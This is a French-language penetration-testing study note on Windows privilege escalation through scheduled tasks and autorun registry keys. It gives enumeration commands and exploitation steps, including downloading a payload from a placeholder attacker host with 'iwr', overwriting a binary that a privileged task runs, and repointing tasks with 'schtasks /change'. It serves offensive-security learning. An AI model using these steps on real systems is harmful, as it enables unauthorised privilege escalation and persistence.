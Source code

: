 # 08-Tâches Planifiées et Clés de Démarrage Automatique

Les tâches planifiées et les programmes configurés pour s'exécuter automatiquement au démarrage peuvent être des vecteurs d'escalade de privilèges si leurs configurations sont faibles.

## Tâches Planifiées (Scheduled Tasks)

**1. Énumération des Tâches Planifiées**
```powershell
# Lister toutes les tâches (format liste détaillé)
schtasks /query /fo LIST /v

# Lister les tâches (format table)
schtasks /query /fo TABLE /nh # /nh pour ne pas afficher les en-têtes

# Avec PowerShell
Get-ScheduledTask
Get-ScheduledTask | Get-ScheduledTaskInfo
Get-ScheduledTask | ? {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State, Actions, Principal
```
Recherchez :
*   **Principal (Run As User) :** Tâches s'exécutant en tant que `NT AUTHORITY\SYSTEM`, un administrateur, ou un utilisateur avec plus de privilèges.
*   **Actions (Task To Run) :** Le binaire ou script exécuté.
*   **Permissions sur le binaire/script :** Si vous pouvez modifier le fichier exécuté par une tâche privilégiée.
*   **Permissions sur le répertoire du binaire/script :** Si vous pouvez remplacer le binaire via un DLL Hijacking ou en modifiant le PATH.
*   **Déclencheurs (Triggers) :** Quand la tâche s'exécute (au démarrage, à l'ouverture de session, périodiquement).

**2. Exploitation**

**Cas 1 : Permissions d'écriture sur le binaire de la tâche**
Si une tâche s'exécute en tant que SYSTEM et que vous pouvez modifier le binaire qu'elle exécute :
```powershell
# Exemple : La tâche "\Microsoft\CacheCleanup" exécute "C:\Users\steve\Pictures\BackendCacheCleanup.exe" en tant que "CLIENTWK220\daveadmin"
# (Extrait de 04-things-to-add.md)

# Vérifier les permissions sur le binaire
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
# ... CLIENTWK220\steve:(I)(F)  <-- L'utilisateur steve a un accès complet (F)

# Créer un payload (ex: adduser.exe)
# x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

# Remplacer le binaire original
PS C:\Users\steve> iwr -Uri http://<IP_ATTAQUANT>/adduser.exe -Outfile BackendCacheCleanup_new.exe
PS C:\Users\steve> move C:\Users\steve\Pictures\BackendCacheCleanup.exe C:\Users\steve\Pictures\BackendCacheCleanup.exe.bak
PS C:\Users\steve> move .\BackendCacheCleanup_new.exe C:\Users\steve\Pictures\BackendCacheCleanup.exe
```
Attendez que la tâche s'exécute (selon son déclencheur, par exemple, toutes les minutes, au prochain démarrage, etc.).

**Cas 2 : Permissions d'écriture sur le répertoire de la tâche (DLL Hijacking)**
Si le binaire de la tâche charge une DLL depuis son propre répertoire et que vous pouvez écrire dans ce répertoire, vous pouvez tenter un DLL Hijacking.

**Cas 3 : Modification de la tâche (si vous avez les permissions)**
Si votre utilisateur a le droit de modifier la tâche, vous pouvez changer le binaire exécuté ou l'utilisateur sous lequel elle s'exécute.
```powershell
# Modifier l'action d'une tâche (nécessite des privilèges sur la tâche)
schtasks /change /tn "NomDeLaTache" /tr "C:\chemin\vers\votre\payload.exe"
# Modifier l'utilisateur (nécessite le mot de passe si ce n'est pas SYSTEM)
# schtasks /change /tn "NomDeLaTache" /ru "NT AUTHORITY\SYSTEM"
```

## Clés de Registre de Démarrage Automatique (Autoruns)
Les programmes listés dans certaines clés de registre s'exécutent automatiquement au démarrage ou à l'ouverture de session.

**1. Énumération des Clés de Démarrage**
```powershell
# Pour tous les utilisateurs (HKLM - Local Machine)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run   # Pour les applications 32 bits sur OS 64 bits
reg query HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce

# Pour l'utilisateur courant (HKCU - Current User)
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# Avec PowerShell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
# etc.

# Utiliser Autoruns de Sysinternals pour une vue complète
# autorunsc.exe -a * -ct -accepteula
```
Recherchez les programmes dont vous pouvez modifier le binaire ou le répertoire.

**2. Exploitation**
Similaire aux tâches planifiées : si un programme listé dans une clé de démarrage s'exécute avec des privilèges élevés (rare pour les entrées `Run` de HKCU, plus probable pour HKLM si mal configuré) et que vous pouvez modifier son binaire ou son répertoire (pour DLL Hijacking), vous pouvez obtenir une exécution de code privilégiée au prochain démarrage/connexion.

**Exemple : Remplacer un binaire pointé par une clé `Run`**
1.  Identifiez une entrée dans `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` qui pointe vers un binaire sur lequel vous avez des droits d'écriture.
2.  Remplacez ce binaire par votre payload.
3.  Au prochain redémarrage, si le service/programme associé à cette clé s'exécute avec des privilèges élevés, votre payload le fera aussi.

Il est plus courant que les clés `Run` soient exploitables si l'application cible elle-même a une vulnérabilité (par exemple, elle s'exécute en tant que SYSTEM mais son binaire est modifiable par un utilisateur standard). 